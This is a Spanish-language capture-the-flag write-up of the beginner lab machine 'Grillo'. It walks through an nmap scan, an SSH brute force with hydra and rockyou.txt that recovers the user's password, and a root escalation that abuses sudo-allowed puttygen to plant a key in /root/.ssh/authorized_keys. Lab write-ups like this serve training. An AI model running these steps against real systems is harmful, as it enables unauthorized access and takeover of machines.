 ```yaml
---
title: 'The Hackers Labs: '
titleIcon: '/thl.png'
tags: [ 'Linux', 'Fuerza Bruta', 'SSH', 'Puttygen', 'Escalada de Privilegios' ]
categories: [ 'CTF', 'The Hackers Labs', 'Principiante', 'Linux' ]
description: |
  Grillo es una máquina de nivel principiante en The Hackers Labs. A través del reconocimiento inicial y el análisis del servicio web, encontramos una pista útil para continuar. Luego, con algo de fuerza bruta y análisis de privilegios, logramos escalar hasta obtener la flag de root.
---
```


<font size='5'>Grillo</font>

Plataforma: `The Hackers Labs`

Dificultad: <font color='green'>Principiante</font>

# Reconocimiento

En esta etapa inicial realizamos un escaneo de puertos para identificar los servicios activos en la máquina objetivo. Utilizamos `Nmap` con parámetros específicos para lograr un análisis más detallado.

```bash
sudo nmap -p- --open -sS -sCV --min-rate 3000 -Pn -n -oN grillo.txt 192.168.100.7 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-03 19:35 -03
Nmap scan report for 192.168.100.7
Host is up (0.00097s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 9c:e0:78:67:d7:63:23:da:f5:e3:8a:77:00:60:6e:76 (ECDSA)
|_  256 4b:30:12:97:4b:5c:47:11:3c:aa:0b:68:0e:b2:01:1b (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 00:0C:29:51:25:FE (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.13 seconds
```

**Detalles del comando:**

- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sCV`: Usa scripts por defecto y detectar versiones de servicios.
- `--min-rate 5000`: Establece un ritmo mínimo de escaneo.
- `-n`: Desactiva la resolución DNS.
- `-Pn`: Omite la detección de hosts activos.
- `-oN Escaneo`: Guarda los resultados en el archivo "Escaneo".

**Puertos descubiertos:**

- 22/tcp - SSH (OpenSSH 9.2p1)
- 80/tcp - HTTP (Apache 2.4.57)

---

## Exploración Web

Ingresamos al sitio mediante el navegador accediendo a la IP descubierta en el escaneo. Nos encontramos con la página por defecto de Apache en Debian. Revisando el código fuente de la página, encontramos una pista interesante:

> "Cambia la contraseña de ssh por favor melanie."

![Página por defecto](/thl/principiante/grillo/defaul-page.png)

![Comentario](/thl/principiante/grillo/comentario.png)

---

## Explotación

Aplicamos fuerza bruta al servicio SSH usando el usuario `melanie` y el diccionario `rockyou.txt`:

```bash
hydra -l melanie -P /usr/share/wordlists/rockyou.txt 192.168.100.7 ssh -t 64
```

Se encuentra la contraseña válida: **trustno1**

![Hydra](/thl/principiante/grillo/hydra.png)

---

## Escalada de Privilegios

Una vez dentro de la máquina, verificamos permisos con:

```bash
sudo -l
```

Descubrimos que podemos ejecutar `puttygen` como root.

![nopasswd](/thl/principiante/grillo/nopasswd.png)

### Uso de puttygen para escalar

Puttygen se utiliza para generar claves SSH. Generamos una clave para root con los siguientes pasos:

> 💡 *Nota:* Es posible que tengas que crear la carpeta `.ssh` manualmente con `mkdir ~/.ssh` si no existe.

```bash
puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/id
puttygen -L ~/.ssh/id >> ~/.ssh/authorized_keys
sudo puttygen /home/melanie/.ssh/id -o /root/.ssh/id
sudo puttygen /home/melanie/.ssh/id -o /root/.ssh/authorized_keys -O public-openssh
scp melanie@192.168.100.7:/home/melanie/.ssh/id .
ssh -i id root@192.168.100.7
```

Primero, se genera una nueva clave SSH RSA de 2048 bits y se guarda en ~/.ssh/id. Luego, se extrae la clave pública desde ese archivo y se agrega al final de ~/.ssh/authorized_keys para habilitar el acceso por clave. Posteriormente, la clave privada se transfiere al directorio seguro /root/.ssh/, y la pública se exporta en formato OpenSSH a /root/.ssh/authorized_keys, permitiendo así la autenticación como root. Finalmente, se copia la clave privada desde la máquina remota a tu entorno local mediante scp, y se establece la conexión SSH con el usuario root usando:

Con esto obtenemos acceso completo como root.

---

## 🎉 ¡Root conseguido!

![root](/thl/principiante/grillo/root.png)

Hemos completado exitosamente la máquina **Grillo** de TheHackersLabs.
